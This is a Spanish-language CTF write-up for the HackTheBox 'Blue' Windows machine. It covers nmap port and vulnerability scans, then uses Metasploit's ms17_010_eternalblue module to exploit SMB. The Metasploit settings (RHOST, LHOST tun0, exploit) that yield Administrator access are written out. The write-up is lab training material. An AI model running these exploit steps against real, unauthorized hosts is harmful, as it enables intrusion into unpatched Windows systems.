 ```yaml
---
layout      : post
title       : "Blue - HackTheBox"
author      : elc4br4
image       : assets/images/HTB/Blue-HackTheBox/Blue.webp
category    : [ htb ]
tags        : [ Windows ]
---
```


Tenemos una máquina nivel EASY Windows, en la que explotaremos la vulnerabilidad eternalblue del protocolo SMB, de forma automatizada con metasploit y no tendremos que escalar privilegios ya el propio exploit nos dará acceso al usuario Administrador.

![](/assets/images/HTB/Blue-HackTheBox/Blue2.webp)

[![HTBadge](https://www.hackthebox.eu/badge/image/533771)](https://www.hackthebox.com/home/users/profile/533771)

![](/assets/images/HTB/Blue-HackTheBox/Blue-rating.webp)

***


**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
    * [Reconocimiento de Puertos](#recon-nmap).
2. [Explotación](#explotacion).
    * [Metasploit](#metasploit).


***

# Reconocimiento [#](reconocimiento) {#reconocimiento}

***

## Reconocimiento de Puertos [🔍](#recon-nmap) {#recon-nmap}

Lanzamos el escaneo de puertos.

```nmap
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

Lanzamos un escaneo mas detallado para saber que servicios y versiones se ejecutan en los puertos existentes que hay abiertos.

```nmap
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-10-16T20:10:20
|_  start_date: 2022-10-16T19:29:57
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-10-16T21:10:17+01:00
|_clock-skew: mean: -19m59s, deviation: 34m37s, median: 0s
```

Lanzamos escaneo de vulnerabilidades usando un script que ya viene implementado en nmap, el script es `vuln`

```bash
# Comando para lanzar el script
-------------------------------
nmap -p145,139,445 -n -Pn --script=vuln 10.10.10.40
```

![](/assets/images/HTB/Blue-HackTheBox/nmap-vuln.webp)

Veremos que el sistema es vulnerable a smb-vuln-ms17-010 o eternalblue.

Asique procedo a explotar la vulnerabilidad.

# Explotación [#](explotación) {#explotacion}

***

## Metasploit [💣](#metasploit) {#metasploit}

Explotaré la vulnerabilidad a través de metasploit.

Buscando encuentro varios exploit, asique elijo el siguiente:

> `exploit/windows/smb/ms17_010_eternalblue`

![](/assets/images/HTB/Blue-HackTheBox/msf1.webp)

Configuro los parámetros del exploit:

```bash
# Ip de la máquina víctima
set RHOST 10.10.10.40
----------------------------
# Ip de mi máquina local (mi interfaz de la vpn)
set LHOST tun0
------------------------------------------------
# Lanzamos el exploit
exploit
---------------------
```

![](/assets/images/HTB/Blue-HackTheBox/msf2.webp)

Como podemos ver ya me he convertido en el usuario Administrador, por lo tanto ya podemos leer la flag user.txt y root.txt.

![](/assets/images/HTB/Blue-HackTheBox/flags.webp)

![](/assets/images/HTB/Blue-HackTheBox/share.webp)

